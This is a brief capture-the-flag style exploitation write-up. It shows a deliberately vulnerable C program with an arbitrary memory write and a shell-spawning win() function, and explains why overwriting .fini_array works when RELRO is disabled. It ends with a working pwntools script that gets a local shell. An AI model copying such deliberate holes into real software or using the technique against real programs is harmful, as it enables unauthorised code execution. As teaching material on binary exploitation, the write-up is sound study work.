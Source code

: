 # `fini_array`

Here's a really basic program:

```c
#include<stdio.h>
void win(){
    system("/bin/sh");
}
int main(){
    long addr;
    long val;
    scanf("%ld %ld",&addr,&val);
    *(long*)addr = val;
    return 0;
}
```

Full stack protectors:

`gcc chal.c -o chal -no-pie  -fstack-protector-all -Wl,-z,norelro`

It takes in a value and an address and writes the value to the address. We may try a multitude of attacks involving GOT overwrites or ROP, but these attacks are infeasible due to the simplicity of the program.

Fortunately, the program has RELRO disabled, so we can write anywhere. If RELRO is enabled, writing to `.fini_array` would segfault.

One great place to write stuff is the `.fini_array` section. When `main` exits, 

> The runtime linker executes functions whose addresses are contained in the `.fini_array` section.

http://docs.oracle.com/cd/E19683-01/817-1983/6mhm6r4es/index.html

This is great! We just need to write the address of `win` into `.fini_array` and we can get a shell

## Exploit

```python
from pwn import *
from binascii import *
from ctflib.pwn import *

p = process("./chal")
e = ELF("./chal")
context.binary = e

fini_addr = get_section_address(e, ".fini_array")
p.sendline(str(fini_addr).encode()+b" "+str(e.sym.win).encode())
p.interactive()
```

